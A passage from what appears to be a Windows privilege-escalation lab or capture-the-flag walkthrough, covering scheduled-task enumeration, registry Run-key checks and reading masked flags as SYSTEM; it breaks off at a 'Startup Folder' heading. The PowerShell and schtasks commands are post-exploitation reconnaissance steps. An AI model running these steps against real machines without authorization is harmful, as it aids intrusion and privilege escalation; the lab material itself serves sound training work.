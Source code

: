 ```bash
# As SYSTEM
type C:\Users\Administrator\Desktop\msi_privesc_flag.txt
```

**FLAG{W***************5}** - After MSI privilege escalation

### Step 5.3: Scheduled Tasks

```powershell
# Enumerate all scheduled tasks
schtasks /query /fo LIST /v | findstr "TaskName\|Run As User\|Task To Run"

# PowerShell detailed view
Get-ScheduledTask | Where-Object {$_.State -ne 'Disabled'} | Select-Object TaskName, TaskPath, State

# Check for stored credentials
Get-ScheduledTask | Get-ScheduledTaskInfo | Where-Object {$_.LogonType -eq 'Password'}

# Specific task
schtasks /query /tn "\DailyUpdate" /fo LIST /v
```

Run and check output:
```powershell
schtasks /run /tn "\DailyUpdate"
Start-Sleep -Seconds 5
type C:\temp\task_ws.txt
```

**FLAG{V***************0}** - From scheduled task

### Step 5.4: Registry Persistence

```powershell
# Check Run keys
Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run"

# RunOnce keys
Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\RunOnce" -ErrorAction SilentlyContinue
Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce" -ErrorAction SilentlyContinue

# Check what they execute
cmd /c echo test > C:\Windows\Temp\regflag.txt
type C:\Windows\Temp\regflag.txt
```

**FLAG{P***************5}** - From registry Run key

### Step 5.5: Startup Folder
